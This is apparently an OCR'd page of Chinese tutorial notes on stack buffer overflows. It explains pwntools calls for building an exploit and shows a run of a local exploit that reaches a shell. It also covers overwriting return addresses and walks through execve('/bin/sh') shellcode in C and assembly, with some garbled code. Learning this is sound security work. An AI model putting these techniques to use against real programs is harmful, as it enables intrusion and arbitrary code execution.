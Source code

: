 
## 攻击
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。

## 攻击
效果如下：
```sh
$ python p.py
[+] Starting local process './test': pid 65319
[*] Switching to interactive mode
$ echo u got it
u got it
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive
```


## 如何利用缓冲区溢出
- 覆盖局部变量
    -尤其是函数指针
- 覆盖错误句柄
- 覆盖存储在栈帧上的指针
- 覆盖返回地址
    - 当函数返回时改变EIP

## 基础栈溢出
- 覆盖返回地址让攻击者控制程序执行流
- 与普通崩溃不同的是，这可以允许任意代码执行
    - 要执行代码称为 "shellcode"
    - 早期，攻击者利用shellcode来获取远程shell
- 例子：系统调用`execve`：用于执行一个二进制程序
    - execve("/bin/sh")，一种获取远程shell的常见方式。

## shellcode开发
编写c语言程序
```
void	main()	{
char	*name[2];
}
name[0]	=	"/bin/sh"; 
name[1]	=	NULL;
execve(name[0],	name,	NULL);
```
通过汇编改写
```
0x80002bc	<__execve>:			pushl %ebp
0x80002bd	<__execve+1>:	movl %esp,%ebp
0x80002bf	<__execve+3>:	pushl %ebx
    The	procedure	prelude.
0x80002c0	<__execve+4>:	movl $0xb,%eax
    Copy	0xb	(11	decimal)	onto	the	stack.	This	is	the	
    index	into	the	syscall table.		11	is	execve.
0x80002c5	<__execve+9>:	movl 0x8(%ebp),%ebx
    Copy	the	first	arg (address	of	"/bin/sh”) into	EBX.
```